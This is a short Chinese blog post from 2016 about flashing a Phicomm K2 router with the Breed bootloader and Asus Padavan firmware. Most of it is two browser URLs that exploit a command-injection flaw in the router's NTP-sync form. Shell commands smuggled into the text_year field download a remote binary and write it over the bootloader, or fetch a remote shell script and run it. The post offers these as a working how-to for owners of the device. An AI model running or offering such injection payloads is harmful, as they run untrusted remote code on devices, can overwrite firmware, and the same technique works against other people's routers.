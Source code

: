 ```yaml
---
title: 斐讯K2 刷入bread／华硕固件 科学上网
date: 2016-8-17 10:38:45
tags: [ss]
---
```


斐讯K2，比较奇葩的一家公司，399元，一个月后返现399，相当于免费得一个路由器，可以自用，也可以放闲鱼卖了。


<!-- more -->

## 刷机

一键刷华数

> 如果想只刷入Breed Web，就可以在浏览器中打开(一个符号都不能少)：

````
　　http://192.168.2.1/goform/gra_NTPSyncWithLocal?text_year="2016|`if wget -O /tmp/breed.bin http://breed.hackpascal.net/breed-mt7620-phicomm-psg1208.bin;then mtd_write write /tmp/breed.bin Bootloader;echo breed ok! >/etc_ro/web/index.asp;fi`"

````

> 如果想一并刷入Breed Web和华硕Padavan固件，直接在浏览器中打开以下链接即可：


````
　　http://192.168.2.1/goform/gra_NTPSyncWithLocal?text_year="2016|`if wget -O /tmp/asus.sh http://code.taobao.org/svn/asus_bin/asus.sh;then sh /tmp/asus.sh;fi`"

````
